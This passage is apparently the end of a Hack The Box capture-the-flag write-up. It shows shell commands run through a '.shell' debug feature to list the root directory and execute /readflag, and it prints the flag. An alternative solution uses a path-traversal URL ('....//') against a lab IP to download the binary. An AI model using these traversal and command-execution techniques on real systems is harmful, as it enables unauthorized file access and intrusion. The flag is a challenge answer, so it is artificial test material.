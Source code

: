 `.shell ls /`

```
app
bin
dev
etc
home
lib
media
mnt
opt
proc
readflag
root
run
sbin
srv
sys
tmp
usr
var
```

`.shell /readflag`

```
HTB{br0k3n_4u7h_55RF_4s_4_s3rv1c3_d3bug_ftw}
```

## Other soluce

Download executable from upload/download function (guessing on the filename and path), and launch it in debian:
http://161.35.173.232:30925/download?resume=....//....//....//....//....//readflag

```bash
chmod +x /home/user/Downloads/readflag
/home/user/Downloads/readflag
```